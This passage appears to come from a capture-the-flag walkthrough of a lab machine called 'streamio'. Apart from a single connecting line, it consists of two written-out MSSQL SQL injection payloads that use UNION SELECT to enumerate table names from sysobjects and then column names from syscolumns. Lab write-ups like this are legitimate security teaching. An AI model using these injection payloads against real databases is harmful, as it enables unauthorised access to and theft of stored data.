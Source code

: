 <figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

```
abcd'union select 1,name,id,4,5,6 from streamio..sysobjects where xtype='U';-- -
```

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

we continue our way in:&#x20;

```
abcd' union select 1,name,id,4,5,6 from streamio..syscolumns where id in (885578193,901578250);-- -
```
